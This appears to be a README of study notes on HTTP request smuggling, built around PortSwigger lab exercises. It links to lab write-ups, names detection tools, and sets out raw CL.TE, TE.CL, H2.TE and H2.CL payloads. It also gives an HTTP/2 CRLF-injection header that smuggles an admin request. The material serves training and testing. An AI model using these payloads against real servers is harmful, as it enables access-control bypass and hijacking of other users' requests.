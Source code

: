# [HTTP Request smuggling](https://portswigger.net/web-security/request-smuggling)

## Labs

- practitioner:
  - [1. HTTP request smuggling, basic CL.TE vulnerability](./lab/1.%20HTTP%20request%20smuggling%2C%20basic%20CL.TE%20vulnerability.md)
  - [2. HTTP request smuggling, basic TE.CL vulnerability2. HTTP request smuggling, basic TE.CL vulnerability](./lab/2.%20HTTP%20request%20smuggling%2C%20basic%20TE.CL%20vulnerability.md)
  - [3. HTTP request smuggling, obfuscating the TE header](./lab/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header.md)
  - [4. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses](./lab/4.%20HTTP%20request%20smuggling%2C%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses.md)
  - [5. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses](./lab/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses.md)
  - [6. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](./lab/6.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20CL.TE%20vulnerability.md)
  - [7. Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](./lab/7.%20Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls%2C%20TE.CL%20vulnerability.md)
  - [8. Exploiting HTTP request smuggling to reveal front-end request rewriting](./lab/8.%20Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting.md)
  - [9. Exploiting HTTP request smuggling to capture other users' requests](./lab/9.%20Exploiting%20HTTP%20request%20smuggling%20to%20capture%20other%20users'%20requests.md)
  - [10. Exploiting HTTP request smuggling to deliver reflected XSS](./lab/10.%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS.md)
  - [11. Response queue poisoning via H2.TE request smuggling](./lab/11.%20Response%20queue%20poisoning%20via%20H2.TE%20request%20smuggling.md)
  - [12. H2.CL request smuggling](./lab/12.%20H2.CL%20request%20smuggling.md)
  - [13. HTTP/2 request smuggling via CRLF injection](./lab/13.%20HTTP2%20request%20smuggling%20via%20CRLF%20injection.md)
  - [14. HTTP/2 request splitting via CRLF injection](./lab/14.%20HTTP2%20request%20splitting%20via%20CRLF%20injection.md)

## Detect

1. burpsuite active scan

    - can detect smuggling but not in detail

2. burpsuite `HTTP request smuggler` extension (best)

    ![extension.png](./img/extension-detect.png)

3. smuggler.py (can't detect HTTP/2):

    - <https://github.com/defparam/smuggler>
    - usage:

        ```bash
        python smuggler.py -u <url>
        ```

## Exploit

1. CL.TE

    - don't need to disable `Update Content-Length`
    - simple payload:

    ```http
    POST /post/comment HTTP/1.1^M$
    Content-Length: 6^M$
    Transfer-Encoding: chunked^M$
    ^M$
    0^M$
    ^M$
    G
    ```

2. TE.CL

    - disable `Update Content-Length`
    - simple payload:

    ```http
    POST / HTTP/1.1^M$
    Content-Length: 4^M$
    Transfer-Encoding: chunked^M$
    ^M$
    29^M$
    GPOST / HTTP/1.1^M$
    Content-Length: 20^M$
    ^M$
    a^M$
    0^M$
    ^M$
    ```

    ```text
    4 = len(29^M$)
    29 = len(GPOST / HTTP/1.1^M$
            Content-Length: 20^M$
            ^M$
            a)
    ```

3. H2.TE (frontend failed to delete TE header)
    - payload:

    ```http
    POST / HTTP/2^M$
    Host: id.web-security-academy.net^M$
    Content-Type: application/x-www-form-urlencoded^M$
    Transfer-Encoding: chunked^M$
    ^M$
    0^M$
    ^M$
    GET /notfoundforsure HTTP/1.1^M$
    Host: id.web-security-academy.net^M$
    ^M$
    ```

4. H2.CL (frontend failed to delete CL header)

    ```http
    POST / HTTP/2^M$
    Host: id.web-security-academy.net^M$
    Content-Type: application/x-www-form-urlencoded^M$
    Content-Length: 0^M$
    ^M$
    smuggled
    ```

5. CRLF injection (\r\n in http2 header is downgraded to http1 as special characters)

    |     |     |
    | --- | --- |
    | :method | GET |
    | :path | /   |
    | :authority | vulnerable-website.com |
    | foo | bar\\r\\n<br />\\r\\n<br />GET /admin HTTP/1.1\\r\\n<br />Host: vulnerable-website.com |

## Working with HTTP/2 in burpsuite

disable `Update Content-Length` and enable `Allow HTTP/2 ALPN override`

![settings.png](./img/lab-12-settings.png)

modify HTTP/2 headers in inspector tab

![inspector.png](./img/lab-13-extensions-payload-2.png)

## Display non-prinable characters

```bash
┌──(kali㉿kali)-[~/Documents/tools]
└─$ cat -A /home/kali/Documents/tools/smuggler/payloads/https_0a9100fd04b3a953c1fd085f00a80097_web-security-academy_net_CLTE_tabprefix1.txt   
POST /?cb=3129548901991752 HTTP/1.1^M$
Transfer-Encoding:^Ichunked^M$
Host: 0a9100fd04b3a953c1fd085f00a80097.web-security-academy.net^M$
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36^M$
Content-type: application/x-www-form-urlencoded; charset=UTF-8^M$
Content-Length: 4^M$
Cookie:  session=3ivuxocrmoimvgwds4dokbbkrmhsfqtk;^M$
^M$
1^M$
Z^M$
0^M$
^M$
```
